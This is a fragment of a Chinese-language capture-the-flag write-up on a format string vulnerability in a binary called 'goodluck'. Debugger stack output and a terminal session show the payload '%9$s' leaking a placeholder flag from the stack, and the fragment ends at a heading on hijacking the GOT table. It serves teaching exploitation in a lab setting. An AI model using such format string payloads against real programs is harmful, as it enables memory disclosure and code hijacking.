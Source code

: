 调试栈中数据，进行泄漏

```shell
0x00007fffffffde58│+0x0000: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8 ← $rsp
0x00007fffffffde60│+0x0008: 0x0000000025000001
0x00007fffffffde68│+0x0010: 0x0000000000602830  →  0x0000000073243925 ("%9$s"?)
0x00007fffffffde70│+0x0018: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffde78│+0x0020: 0x00007fffffffde80  →  "flag{AAAAAAAAAAAAAAAAA"
0x00007fffffffde80│+0x0028: "flag{AAAAAAAAAAAAAAAAA"
0x00007fffffffde88│+0x0030: "AAAAAAAAAAAAAA"
0x00007fffffffde90│+0x0038: 0x0000414141414141 ("AAAAAA"?)
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
   0x7ffff7a62813 <printf+19>      mov    QWORD PTR [rsp+0x38], rcx
   0x7ffff7a62818 <printf+24>      mov    QWORD PTR [rsp+0x40], r8
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "goodluck", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7a62800 → __printf(format=0x602830 "%9$s")
[#1] 0x400890 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  

AAAAAAAA 是栈中数据

```

https://github.com/scwuaptx/Pwngdb  插件可以直接获取，需py3+版本



```
结果：
toor@ubuntu:~/Desktop$ ./goodluck 
what's the flag
%9$s
You answered:
flag{AAAAAAAAAAAAAAAAA
But that was totally wrong lol get rekt
toor@ubuntu:~/Desktop$ ./goodluck 
what's the flag
flag{AAAAAAAAAAAAAAAAA
That's right, the flag is flag{AAAAAAAAAAAAAAAAA

```



**劫持 got表**
